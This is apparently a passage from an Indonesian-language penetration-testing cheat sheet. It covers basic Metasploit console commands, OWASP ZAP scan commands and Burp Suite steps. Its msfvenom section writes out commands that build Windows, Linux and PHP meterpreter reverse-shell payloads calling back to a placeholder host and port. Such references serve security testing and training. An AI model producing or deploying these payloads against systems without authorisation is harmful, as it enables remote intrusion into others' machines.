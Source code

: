 ## 4. Metasploit Framework

### 4.1 Perintah Dasar
```bash
# Memulai Metasploit
msfconsole

# Mencari modul
search [jenis/exploit/auxiliary]

# Menggunakan modul
use [path/module]

# Menampilkan opsi
show options

# Menjalankan exploit
exploit
```

### 4.2 Membuat Payload
```bash
# Windows Reverse Shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f exe > shell.exe

# Linux Reverse Shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f elf > shell.elf

# Web Shell PHP
msfvenom -p php/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f raw > shell.php
```

## 5. Web Application Testing

### 5.1 OWASP ZAP
```bash
# Pemindaian dasar
zap-cli quick-scan -s all http://example.com

# Pemindaian otentikasi
zap-cli -p 8080 -v quick-scan -s all -r http://example.com/login --form-param "username=test&password=test"

# Ekspor hasil
zap-cli -p 8080 report -o results.html -f html
```

### 5.2 Burp Suite
1. Konfigurasi browser untuk menggunakan proxy Burp (biasanya 127.0.0.1:8080)
2. Aktifkan intercept di tab "Proxy"
3. Gunakan "Repeater" untuk memodifikasi request
4. Gunakan "Intruder" untuk serangan otomatis
5. Gunakan "Scanner" untuk pemindaian otomatis
